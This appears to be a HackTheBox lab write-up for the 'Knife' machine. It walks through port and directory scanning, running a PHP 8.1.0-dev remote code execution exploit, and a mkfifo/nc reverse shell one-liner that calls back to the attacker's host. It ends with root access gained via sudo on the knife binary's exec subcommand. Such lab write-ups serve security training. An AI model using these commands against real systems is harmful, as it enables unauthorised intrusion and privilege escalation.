 ```yaml
---
title: "HackTheBox - Knife"
author: Nasrallah
description: ""
date: 2022-02-21 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, cve, sudo]
image:
  src: /assets/img/hackthebox/knife/card.png
  width: 1000
  height: 400
  alt:
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Knife](https://app.hackthebox.com/machines/347) from [HackTheBox](https://hackthebox.com), it's an easy machine where we find a vulnerable version of php running, use an exploit for that to gain access to the machine, after that, we exploit a binary that we can run as root to gain privileged access.

# **Enumeration**
## nmap

As usual, let's run a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressice scan to provide faster results.

```terminal
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-31 15:44 EST
Nmap scan report for 10.10.10.242
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap shows that the machine has 2 open ports: 22(SSH) and 80(HTTP).

## HTTP

Let's navigate to the webpage.

![home](/assets/img/hackthebox/knife/home.png)

It looks like we have an Emergent Medical Idea application, but there is nothing interesting.

## Gobuster

Let's scan for directories and files using `Gobuster`.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.242                                 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/31 15:50:23 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]

===============================================================
```

Nothing interesting here too.

## wappalyzer

Let's check the web page with Wappalyzer***(Wappalyzer is a browser extension that uncovers the technologies used on websites. It detects content management systems, eCommerce platforms, web servers, JavaScript frameworks, analytics tools and many more.)***

![wapp](/assets/img/hackthebox/knife/wapp.png)

Let's google these technologies and see if we can find any vulnerability.

![cve](/assets/img/hackthebox/knife/cve.png)

We found that `php 8.1.0-dev` has a Remote Code Execution vulnerability, let's download an exploit and see what we can do.

# **Foothold**

Let's run the exploit now.

```terminal
$ python3 php_exploit.py           
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
Can't acces tty; job crontol turned off.
$ whoami
james

```

Great! we got a shell as **james**, but this is not a functional shell, let's get one by executing a reverse shell command than sends us james shell.

```terminal
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

>Note: Change the ip address in the command to yours and set up a listener before executing the command!

```terminal
┌──(sirius㉿kali)-[~]
└─$ nc -lnvp 9001                                                                                                                                        1 ⨯
listening on [any] 9001 ...
connect to [10.10.17.90] from (UNKNOWN) [10.10.10.242] 41496
bash: cannot set terminal process group (1006): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ ^Z
zsh: suspended  nc -lnvp 9001

┌──(sirius㉿kali)-[~]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 9001

james@knife:/$
```

Now we have a fully functional shell.

# **Privilege Escalation**

Let's check what can we run as root.

```terminal
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

```

We can run `knife` as root. We google knife binary and we find this [Documentation](https://docs.chef.io/workstation/knife/). When we look at the subcommands we see `exec`.

![exec](/assets/img/hackthebox/knife/exec.png)

With `exec` sub command, we can run ruby scripts. and with our ability to run knife as root, we can give it a ruby script that drops us a root shell.`exec "/bin/bash"`

```terminal
james@knife:~$ sudo knife exec
An interactive shell is opened

Type your script and do:

1. To run the script, use 'Ctrl D'
2. To exit, use 'Ctrl/Shift C'

Type here a script...
exec "/bin/bash"
root@knife:/home/james# whoami
root
root@knife:/home/james#
```
Great! We became root now.

---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .

